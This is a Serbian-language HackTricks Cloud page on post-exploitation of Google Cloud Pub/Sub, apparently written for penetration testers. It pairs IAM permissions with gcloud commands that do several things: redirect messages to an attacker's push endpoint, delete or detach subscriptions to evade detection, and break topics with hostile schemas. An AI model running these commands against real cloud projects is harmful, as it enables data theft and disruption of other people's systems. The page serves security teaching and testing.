 # GCP - Post Eksploatacija Pub/Sub

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Pub/Sub

Za više informacija o Pub/Sub proverite sledeću stranicu:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Objavite poruku u temi, korisno za **slanje neočekivanih podataka** i pokretanje neočekivanih funkcionalnosti ili eksploataciju ranjivosti:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Korisno da se spreči pretplata da primi poruke, možda da bi se izbeglo otkrivanje.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Korisno kako bi se sprečilo da pretplata primi poruke, možda kako bi se izbeglo otkrivanje.\
Moguće je obrisati temu čak i ako su joj pridružene pretplate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Koristite ovu dozvolu da biste ažurirali neka podešavanja teme kako biste je poremetili, poput `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dajte sebi dozvolu da izvršite bilo koji od prethodnih napada.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Dobijte sve poruke na veb serveru:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Kreirajte pretplatu i koristite je za **dobijanje poruka**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Brisanje pretplate** može biti korisno za ometanje sistema za obradu logova ili nečeg sličnog:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Koristite ovu dozvolu da biste ažurirali neka podešavanja tako da poruke budu smeštene na mestu koje možete pristupiti (URL, Big Query tabela, Bucket) ili jednostavno da biste je poremetili.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Dajte sebi dozvole potrebne za izvođenje bilo koje od prethodno komentarisanih napada.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Napadnite šemu na temu tako da poruke ne zadovoljavaju uslove i time se tema ometa.\
Ako nema šema, možda ćete morati da kreirate jednu.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Ovo može izgledati kao brisanje šeme koja vam omogućava slanje poruka koje ne odgovaraju šemi. Međutim, pošto će šema biti obrisana, nijedna poruka zapravo neće ući u temu. Dakle, ovo je **BESKORISNO**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dodelite sebi dozvole potrebne za izvođenje bilo koje od prethodno komentarisanih napada.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Ovo će kreirati snimak svih nepotvrđenih poruka i vratiti ih nazad na pretplatu. Nije baš korisno za napadača, ali evo:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
